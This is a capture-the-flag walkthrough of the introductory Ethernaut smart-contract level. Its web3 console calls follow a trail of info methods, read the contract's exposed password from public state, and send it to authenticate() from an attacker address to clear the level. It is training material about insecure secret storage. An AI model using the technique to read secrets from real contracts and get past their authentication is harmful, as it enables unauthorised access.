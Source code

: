 ## Hello Ethernaut

We're told to get the contract's information by `call`ing `contract.info()`:
```js
>> ctf00_contract.methods.info ().call ( (err, res) => console.log (res));
You will find what you need in info1().
```

As instructed, we can keep following the trail:
```js
>> ctf00_contract.methods.info1 ().call ( (err, res) => console.log (res));
Try info2(), but with "hello" as a parameter.
>> ctf00_contract.methods.info2 ("hello").call ( (err, res) => console.log (res));
The property infoNum holds the number of the next info method to call.
>> ctf00_contract.methods.infoNum ().call ( (err, res) => console.log (res));
42
>> ctf00_contract.methods.info42 ().call ( (err, res) => console.log (res) );
theMethodName is the name of the next method.
>> ctf00_contract.methods.theMethodName ().call ( (err, res) => console.log (res) );
The method name is method7123949.
>> ctf00_contract.methods.method7123949 ().call ( (err, res) => console.log (res) );
If you know the password, submit it to authenticate().
```

Note that, to get the value of the `infoNum` property, we can just `call` it like with any other contract.
Since the final method requests a password, we can also peek at the `password` property and `send` it to `authenticate()` (since we're changing the contract's status):
```js
>> ctf00_contract.methods.password ().call ( (err, res) => console.log (res) );
SuperSecurePassword!
>> ctf00_contract.methods.authenticate ("SuperSecurePassword!").call ( (err, res) => console.log (res) );
Object {  }
>> ctf00_contract.methods.getCleared ().call ( (err, res) => console.log (res) );
false
```

Huh?
Why is it not cleared?
Oh, true, because `call` doesn't change the contract status.

Let's try again, but this time let's send a transaction:
```js
>> ctf00_contract.methods.authenticate ("asdf").send ({ "from": attackerAddress }, (err, res) => console.log (res) );
0x46da940b7eed9fb741015e5cf0d87d33d112bd2795f26fe9aea6e6458d6d5c0e
>> ctf00_contract.methods.getCleared ().call ( (err, res) => console.log (res) );
false
>> ctf00_contract.methods.authenticate ("SuperSecurePassword!").send ({ "from": attackerAddress }, (err, res) => console.log (res) );
0xb598659853e78ffaa0a4cf72b8f06733d07ce2ef2af9019dbbc486dd37e3f302
>> ctf00_contract.methods.getCleared ().call ( (err, res) => console.log (res) );
true
```
